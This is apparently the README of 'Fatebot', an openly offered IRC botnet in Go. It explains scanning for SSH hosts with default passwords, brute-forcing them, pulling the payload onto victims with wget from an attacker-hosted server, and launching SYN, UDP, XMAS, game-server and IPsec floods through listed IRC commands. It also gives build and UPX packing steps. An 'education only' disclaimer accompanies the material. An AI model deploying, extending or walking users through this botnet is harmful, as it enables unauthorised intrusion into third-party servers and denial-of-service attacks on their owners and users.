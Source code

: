 # Fatebot
This is my first <strong>IRC botnet</strong> for launch Denial of Service attack. Scan target are anything that run linux, open default SSH port, use default username and password. This bot are write in "Go" language. <strong>For education purpose only. Please test it in your lab, i create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<br>Bozer\Bulldozer (old name is R4bin) the author of Fatebot, feel free to do anything with it. read more detail in license.</br>
<br><ins>If you have an issue please understand that some of them i can't answer because it will make me have a trouble with The cyber law.</ins></br>

<img src="assets/FateBot.png" alt="Fatebot" width="400" height="400">

# Infect Feature
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA, CN, KR network or you can do a random scan or even you can add you own mods like russia or india isp mods, all of these it's up to you. This bot will brute-force attack to the target and use <strong>"wget"</strong> for download the payload from FTP server, so... please prepair your FTP server first it's very important for the infect process. <strong>(You can use any option any server type that can host the payload not maintionly to be an FTP server.)</strong>

# Add more network

(1) Create slice of your network.

	Example:
	
		var UK_netList = []string {
			"123.123", // 123.123.0.0/16
			"234.234", // 234.234.0.0/16
		}
	
	# since v0.6.0 will be use only 16bit of the ip range(I'm still confused about subnet mask lol).

(2) Then go down to the "ScanMode" function and add the case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			b.Scanner(UK_netList, false) //just config the first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of SSH port are open on which isp/org, what is the most used OS, version and etc.</strong>

# Attack Feature
Attack feature will play around with <strong>volumetric</strong> mostly, but also have an <strong>application</strong> too.
All of the attack vectors will be <strong>random source port automatically, min and max of attack size will be 10 - 1450bytes.</strong>


<img src="assets/synflood.png" alt="synflood, dos example">

# Build Payload

	chmod +x build.sh
	./build.sh <payload>
	
	#Tip: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
		
	Debian:
		apt install upx -y && upx -9 bin/<payload>
		
# Requirements
<ul>
	<li>IRC Server</li>
</ul>

<ul><li>IRC Backup Server <strong>(Optional)</strong></li></ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Payload Hosting Server</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer <strong>(Optional)</strong></li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>

# IRC Commands
	
	ATTACK VECTORS:
	
		?udp <srcIP> <dstIP> <port> <size>		Just a normal UDP Flood attack.
		?syn <srcIP> <dstIP> <port> <size>		Just a normal SYN Flood attack.
		?ack <srcIP> <dstIP> <port> <size>		Just a normal ACK Flood attack.
		?fin <srcIP> <dstIP> <port> <size>		Flood TCP FIN packets to request close connection when target server are blocking a syn packet.
		?rst <srcIP> <dstIP> <port> <size>		Flood TCP RST packets to broke a TCP connection between client and target server.
		?sap <srcIP> <dstIP> <port> <size>		Flood by using TCP SYN+ACK Flags to the target server.
		?xmas <srcIP> <dstIP> <port> <size>		Flood TCP packets by using all of TCP Flags to target server.
		?vse <srcIP> <dstIP>				Flood TSource Engine Query request to the target game server that used valve source engine.
		?fms <srcIP> <dstIP>				Flood query payload to a FiveM game server(They use to host GTAV i guess. i'm only playing "Hell let loose" for now, lol).
		?ipsec <srcIP> <dstIP>				Flood payload to overwhelm system resources of VPN service and make IPSec VPN connections being affected.
	
	SCANNER:
	
		?scan <modes> <server>                  Scan SSH port on the network, Brute-Force attack to the target and install the payload by "wget".
	
			-cn		Scan on china network.
			-usa		Scan on the united state of america network.
			-kr		Scan on south korea network.
			-r		Scan with random ip.
		
	?info				Get bot system information, for bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
